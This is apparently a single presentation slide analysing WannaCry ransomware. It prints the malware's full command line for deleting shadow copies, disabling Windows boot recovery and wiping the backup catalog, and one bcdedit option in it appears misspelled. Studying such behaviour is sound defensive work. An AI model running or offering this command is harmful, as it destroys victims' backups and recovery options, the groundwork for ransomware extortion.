

# WannaCry: Details of Operations
clear the Shadow Volume Copies, disable Windows startup recovery, clear Windows Server Backup history.
Execute command:
C:\Windows\SysWOW64\cmd.exe /c vssadmin delete shadow /all /quiet & wmic shadowcopy delete & bcdedit /set {default} boostatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no & wbadmin delete catalog -quiet